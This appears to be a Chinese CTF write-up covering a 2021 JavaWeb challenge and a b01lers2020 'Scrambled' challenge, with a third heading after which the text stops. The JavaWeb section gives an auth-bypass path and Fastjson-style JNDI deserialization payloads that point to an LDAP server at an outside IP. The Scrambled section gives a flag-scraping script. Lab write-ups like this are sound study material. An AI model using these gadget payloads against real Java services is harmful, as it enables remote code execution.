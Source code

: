 ## 0x01 [红明谷CTF 2021]JavaWeb

`/;/json`绕过权限校验,然后漏洞探测

```
["java.net.InetAddress","khl16k.dnslog.cn"]
```

![image-20220124084950989](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220124084950989.png)

```
["br.com.anteros.dbcp.AnterosDBCPConfig", {"healthCheckRegistry": "ldap://8.142.93.103:9090/test"}]
```

```
["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"ldap://8.142.93.103:9090/test"}]
```

## 0x02 [b01lers2020]Scrambled

```
lag052c5816c-3f6b-47eb-b7f7-692e5803b6040000000000
    05f6b54c-784c-4e74-a29c-e63c2b078a81
```

直接上wp

```python
import requests
import re


url = 'http://6e085bd1-c88b-46ce-adbd-12d3139e997d.node4.buuoj.cn:81/'
headers = {'Cookie': 'frequency=1; transmissions=kxkxkxkxsha410kxkxkxkxsh'}

flag = [0] * 50

while True:
    res = requests.session()
    cookie = res.get(url, headers=headers).headers['Set-Cookie']
    try:
        tmp = re.search(r'kxkxkxkxsh(.+)kxkxkxkxsh;', cookie).group()[10:-11]
        
        flag[int(tmp[2:])] = tmp[1:2]
        flag[int(tmp[2:])-1] = tmp[0:1]
        
        for i in flag:
            print(i, end='')
        print()
    except:
        pass

```

## 0x03 [极客大挑战 2020]Roamphp4-Rceme
